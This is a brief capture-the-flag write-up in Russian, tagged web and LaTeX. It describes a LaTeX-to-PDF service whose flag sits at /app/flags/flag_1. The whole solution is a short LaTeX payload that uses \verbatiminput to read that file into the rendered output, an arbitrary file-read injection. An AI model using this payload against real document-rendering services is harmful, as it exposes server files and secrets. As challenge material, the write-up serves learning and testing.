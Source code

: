 #web #latex 

Дан pdftotex сервис, надо прочитать /app/flags/flag_1

Пейлоад:

```
\documentclass{article}
\usepackage{verbatim}

\begin{document}
\verbatiminput{/app/flags/flag_1}
\end{document}

```

